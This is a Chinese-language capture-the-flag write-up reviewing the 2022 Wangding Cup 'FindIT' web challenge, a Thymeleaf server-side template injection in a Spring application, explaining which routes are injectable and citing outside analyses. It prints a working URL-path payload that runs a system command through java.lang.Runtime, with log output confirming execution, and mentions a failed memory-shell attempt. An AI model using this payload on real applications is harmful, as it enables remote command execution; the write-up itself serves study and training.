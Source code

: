 ```yaml
---
layout: about
category: about
toc: true
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-FindIT]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-FindIT-Walkthrough/
desc: 「CTF」
---
```


[//]: # (<h1 align="center" dir="auto"><a id="user-content-哨兵bin4xin" class="anchor" aria-hidden="true" href="#哨兵bin4xin"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><a href="https://sentrylab.cn/" rel="nofollow">哨兵::</a><a href="https://bin4xin.sentrylab.cn/" rel="nofollow">Bin4xin::</a></h1>)


## Web-FindIT赛题复盘

本文主要参考《2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造》参考[2]进行复盘；

实际上我们一开始拿到jar包也是尝试几个路由是否存在`SSTI`漏洞，不过CTF基本上通用的payload基本上是不生效的：

![2022-09-21-10.46.42.png](https://image.yjs2635.xyz/images/2022/09/21/2022-09-21-10.46.42.png)

所以我们尝试搞清楚：

- 1.用了`@ResponseBody`注解的路由，不存在漏洞；
- 2.没有使用`@ResponseBody`进行注解的路由，因此即使没有`return`情况下也是可注入的。

如果

### # @ResponseBody

我们找到了一些大牛的解答，就不在这里班门弄斧了，引用《Thymeleaf SSTI漏洞分析》参考[5]原文：

- 问题1：

> 配置了ResponseBody注解确实无法触发，经过调试在`applyDefaultViewName`中`ModelAndView`是`Null`，而非`ModelAndView`对象，所以
>
> `hasView()`会异常，不会设置视图名。

更多移步[配置ResponseBody或RestController注解](https://xz.aliyun.com/t/10514#toc-13){:target="_blank"}

- 问题2：

> [引用参考文章[5]第四章](https://xz.aliyun.com/t/10514#toc-5){:target="_blank"}分析了`SpingMVC`视图解析的过程，在解析视图首先获取返回值并封
>
> 装为`ModleAndView`，而在当前当前环境中并没有返回值，按理说`ModelAndView`应该为空，为什么还能正常得到`ModleAndView`呢？
> 
> 原因主要在`DispatcherServlet#doDispatch`中，获取ModleAndView后还会执行`applyDefaultViewName`方法。

更多移步[urlPath中传入Payload可以执行](https://xz.aliyun.com/t/10514#toc-11){:target="_blank"}

### # SSTI payload及绕过复现

我们直接把payload拿过来：

```
/doc/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22id%22)%7D__::main.x
```

可以看到console报错`UnixProcess`说明命令注入成功了的：

```console
2022-09-22 06:50:03.785  INFO 1 --- [nio-8080-exec-2] c.e.demo.controller.IndexController      : info: __${T (java.lang.Runtime).getRuntime().exec("id")}__::main.x
2022-09-22 06:50:04.004 ERROR 1 --- [nio-8080-exec-2] org.thymeleaf.TemplateEngine             : [THYMELEAF][http-nio-8080-exec-2] Exception processing template "doc/java.lang.UNIXProcess@1331b3c8::[main]": Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers

org.thymeleaf.exceptions.TemplateInputException: Error resolving template [doc/java.lang.UNIXProcess@1331b3c8], template might not exist or might not be accessible by any of the configured Template Resolvers
```

不过我们同样尝试写入payload注入内存马时却报错

![2022-09-22-15.13.04.png](https://image.yjs2635.xyz/images/2022/09/22/2022-09-22-15.13.04.png)

我们观察一下发现和之前的console报错时不一样的：

```console
Error resolving template [doc/java.lang.UNIXProcess@1331b3c8]
```

成功应该是注入代码成功被识别成模版，然后汇报模版解析过程的问题（如上）；而失败则并未被识别成模版（如下）：

```console
java.lang.IllegalArgumentException: Invalid template name specification:
```

## 参考

- [1]. [Thymeleaf 模板注入命令执行](https://zhuanlan.zhihu.com/p/248416919){:target="_blank"}
- [2]. [2022 网鼎杯玄武组-you can find it 题解—Spring通用MemShell改造](https://xz.aliyun.com/t/11688){:target="_blank"}
- [3]. [CTF-you-can-find-it (2022 网鼎杯 玄武组 web ctf thymeleaf SSTI bypass and memshell to retrive flag)](https://github.com/testivy/wangding_2022_ctf_findit){:target="_blank"}
- [4]. [Thymeleaf 3.0.12 — Release Notes](https://www.thymeleaf.org/releasenotes.html#thymeleaf-3.0.12){:target="_blank"}
- [5]. [Thymeleaf SSTI漏洞分析](https://xz.aliyun.com/t/10514){:target="_blank"}